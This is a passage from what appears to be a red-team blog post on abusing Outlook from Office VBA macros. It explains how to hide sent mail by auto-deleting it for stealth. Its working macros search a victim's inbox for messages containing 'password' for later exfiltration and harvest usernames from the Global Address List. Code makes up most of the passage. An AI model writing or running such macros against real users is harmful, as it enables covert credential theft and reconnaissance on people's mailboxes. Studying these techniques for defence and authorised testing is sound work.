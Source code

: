 If we do not want a copy in the "Sent" folder we can set the property `DeleteAfterSubmit` as *True* after we set the `Body`. This will move directly the mail to the Deleted folder, so it is a bit more stealthy. To fully erradicate the mail we need to locate the mail (as item) inside the Deleted folder and then call the method [`Remove`](https://docs.microsoft.com/es-es/office/vba/api/outlook.items.remove) via MAPI.



# Slipping into your mailbox to gossip (Reconnaissance)

The object `Outlook.Application` gives us also access to the namespace [MAPI](https://docs.microsoft.com/es-es/office/vba/api/outlook.application.getnamespace) and all its methods. This is important because we can interact with the mail boxes without knowing the credentials. For example, we can use our macro to search all the received mails that contains the word "password" in its body:

```vb
Sub retrieve_passwords()
    Dim xOutApp As Object
    Dim xOutMail As Object
    Dim xMailBody As String
    Set xOutApp = CreateObject("Outlook.Application")
    Set outlNameSpace = xOutApp.GetNamespace("MAPI")

    Set myTasks = outlNameSpace.GetDefaultFolder(6).Items
    Dim i As Integer
    i = 1
    For Each olMail In myTasks
        If (InStr(1, UCase(olMail.Body), "PASSWORD", vbTextCompare) > 0) Then
            Cells(i, 1) = olMail.Body ' Here we are just showing the info in the Excel sheets, but you can exfiltrate it as we saw before ;D
            i = i + 1
        End If
    Next
    Set xOutMail = Nothing
    Set xOutApp = Nothing
End Sub
```

Plaintext passwords inside mailboxes are probably one of the most common sins we are used to see in our engagements. A macro of this kind aimed to the right target can give you the Heaven's keys.

Another interesting information that we can get using MAPI is the Global Address List (GAL). In the address list we can find names, usernames, phone numbers, etc. Here we are just collecting usernames:

```vb
'https://www.excelcise.org/extract-outlook-global-address-list-details-with-vba/
Sub global_address_list()
    Dim xOutApp As Object
    Dim xOutMail As Object
    Dim xMailBody As String
    Set xOutApp = CreateObject("Outlook.Application")
    Set outlNameSpace = xOutApp.GetNamespace("MAPI")
    Set outlGAL = outlNameSpace.GetGlobalAddressList()
    Set outlEntry = outlGAL.AddressEntries
        On Error Resume Next

    'loop through address entries and extract details
    For i = 1 To outlEntry.Count
        Set outlMember = outlEntry.Item(i)
        If outlMember.AddressEntryUserType = olExchangeUserAddressEntry Then
           Cells(i, 1) = outlMember.GetExchangeUser.Name  
        End If
    Next i
    Set xOutMail = Nothing
    Set xOutApp = Nothing
```